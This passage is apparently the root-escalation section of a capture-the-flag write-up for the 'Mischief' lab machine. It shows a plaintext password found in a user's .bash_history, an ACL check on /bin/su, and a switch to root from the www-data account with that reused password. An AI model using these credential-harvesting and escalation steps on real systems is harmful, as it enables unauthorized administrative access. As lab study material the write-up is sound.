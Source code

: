 ### 3. Getting Root

In ".bash_history", we can find a possible credential "loki:lokipasswordmischieftrickery".
{% highlight shell %}
loki@Mischief:~$ cat .bash_history 
python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
exit
free -mt
ifconfig
cd /etc/
sudo su
su
exit
su root
ls -la
sudo -l
ifconfig
id
cat .bash_history 
nano .bash_history 
exit

loki@Mischief:~$
{% endhighlight %}

The user "loki" can't use a command "su".<br>
This is because that user "loki" doesn't have a permission for that and we can confirm that with "getfacl" command.
{% highlight shell %}
loki@Mischief:~$ getfacl /bin/su
getfacl: Removing leading '/' from absolute path names
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x

loki@Mischief:~$
{% endhighlight %}

However, if we take a look at user "www-data", we can notice that we can run "su" command and become "root"
{% highlight shell %}
$ su root                     
su root
Password: lokipasswordmischieftrickery

root@Mischief:/home/loki# id
id
uid=0(root) gid=0(root) groups=0(root)

root@Mischief:/home/loki# 
{% endhighlight %}
